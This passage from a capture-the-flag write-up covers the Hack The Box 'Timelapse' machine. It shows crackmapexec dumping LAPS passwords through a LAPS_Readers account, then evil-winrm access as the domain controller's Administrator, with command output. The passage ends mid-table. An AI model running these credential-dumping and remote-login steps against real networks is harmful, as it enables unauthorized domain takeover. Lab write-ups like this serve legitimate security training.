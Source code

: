I'm user `svc_deploy`!

### svc_deploy to Administrator

**Since we're `svc_deploy`, and `svc_deploy` is a member of `LAPS_Readers` group, we can access the LAPS password!**

**However, instead using `LAPSToolkit.ps1`, we can also use `crackmapexec` to dump LAPS passwords!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|18:13:17(HKT)]
└> crackmapexec ldap $RHOSTS -u svc_deploy -p '{Redacted}' --kdcHost $RHOSTS -M laps
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:{Redacted} 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer: DC01$                Password: {Redacted}
```

Nice! We found a LAPS password!

Now, we can WinRM into the Domain Controller's local `Administrator`, who is also a Domain Admins!

**Login as `Administrator` via `evil-winrm`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|18:14:49(HKT)]
└> evil-winrm -S -i $RHOSTS -u Administrator -p '{Redacted}'
[...]
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami; ipconfig /all
timelapse\administrator

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc01
   Primary Dns Suffix  . . . . . . . : timelapse.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : timelapse.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-7B-4A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4113:1f9:543d:6321%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.11.152(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 33574998
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-65-68-F0-00-50-56-B9-7B-4A
   DNS Servers . . . . . . . . . . . : 127.0.0.1
[...]
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                       Type             SID                                         Attributes
================================================ ================ =========================================== ===============================================================
```